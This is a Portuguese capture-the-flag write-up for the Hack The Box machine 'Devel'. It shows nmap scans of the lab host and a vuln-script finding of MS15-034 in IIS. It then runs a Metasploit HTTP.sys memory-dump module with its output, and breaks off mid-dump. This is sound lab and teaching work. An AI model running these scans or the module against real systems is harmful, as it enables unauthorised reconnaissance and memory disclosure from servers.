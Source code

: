 ```yaml
---
title:     "Hack The Box - Devel"
tags: [windows,easy]
categories: HackTheBox
---
```



![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-devel/1.jpg)

## Enumeration

Iniciamos nossa enumeracao usando o nmap


```
root@kali:~/HTB-Windows/devel# nmap -Pn -p- -T4 -oN nmap/allports  10.10.10.5
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 10:07 EDT
Nmap scan report for 10.10.10.5
Host is up (0.19s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 232.58 seconds
```

Encontrado duas porta TCP open. Precisamos ter mais informacoes sobre esses servicos encontrados, por exemplo: versao

```
root@kali:~/HTB-Windows/devel# nmap -sV -p21,80 -oN nmap/services_version 10.10.10.5
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 10:19 EDT
Nmap scan report for 10.10.10.5
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.99 seconds
```

Eu particulamente ja tinha idea desde antes que trata-se de uma maquina WINDOWS. Antes de iniciar a maquina eu tinha dado um ping, e tive um TTL de 127, com isso eu sei que eh uma maquina windows.

***reference*** https://subinsb.com/default-device-ttl-values/ and https://superuser.com/questions/620304/how-to-identify-which-os-is-running-at-remote-host

```
TTL=64 = *nix - the hop count so if your getting 61 then there are 3 hops and its a *nix device. Most likely Linux.
TTL=128 = Windows - again if the TTL is 127 then the hop is 1 and its a Windows box.
TTL=254 = Solaris/AIX - again if the TTL is 250 then the hop count is 4 and its a Solaris box.
```

Mas voce tambem pode usar o proprio NMAP com a opcao **OS DETECTION: -O: Enable OS detection** e assim obter informacoes sobre qual sistema operacional voce esta trabalhando, isso eh muito importante.

continuando...

Mas uma vez voltamos ao nosso nmap, dessa vez usando os scripts nse

```
root@kali:~/HTB-Windows/devel# nmap -p21,80 --script vuln -oN nmap/vulns 10.10.10.5   
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 10:33 EDT
Stats: 0:10:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.51% done; ETC: 10:43 (0:00:03 remaining)
Nmap scan report for 10.10.10.5
Host is up (0.19s latency).

PORT   STATE SERVICE
21/tcp open  ftp
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
80/tcp open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-vuln-cve2015-1635: 
|   VULNERABLE:
|   Remote Code Execution in HTTP.sys (MS15-034)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2015-1635
|       A remote code execution vulnerability exists in the HTTP protocol stack (HTTP.sys) that is
|       caused when HTTP.sys improperly parses specially crafted HTTP requests. An attacker who
|       successfully exploited this vulnerability could execute arbitrary code in the context of the System account.
|           
|     Disclosure date: 2015-04-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms15-034.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1635

```

Encontramos algo vulneravel, precisamos pesquisar sobre essa vuln.

Depois de pesquisar e tentar explorar, ela nao foi muito promissora. Precisamos continuar enumerando ...

```
msf5 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > set rhosts 10.10.10.5
rhosts => 10.10.10.5
msf5 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > set verbose true
verbose => true
msf5 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > run
/usr/share/metasploit-framework/modules/auxiliary/scanner/http/ms15_034_http_sys_memory_dump.rb:67: warning: URI.escape is obsolete

[*] 10.10.10.5:80         - Checking /iisstart.htm [416] - Vulnerable
[+] Target may be vulnerable...
[*] File length: 689 bytes
[+] Stand by...
[-] Memory dump start position not found, dumping all data instead

[+] Memory contents:
48 54 54 50 2f 31 2e 31 20 32 30 36 20 50 61 72    |HTTP/1.1 206 Par|
74 69 61 6c 20 43 6f 6e 74 65 6e 74 0d 0a 43 6f    |tial Content..Co|
6e 74 65 6e 74 2d 54 79 70 65 3a 20 74 65 78 74    |ntent-Type: text|
2f 68 74 6d 6c 0d 0a 4c 61 73 74 2d 4d 6f 64 69    |/html..Last-Modi|
66 69 65 64 3a 20 46 72 69 2c 20 31 37 20 4d 61    |fied: Fri, 17 Ma|
```
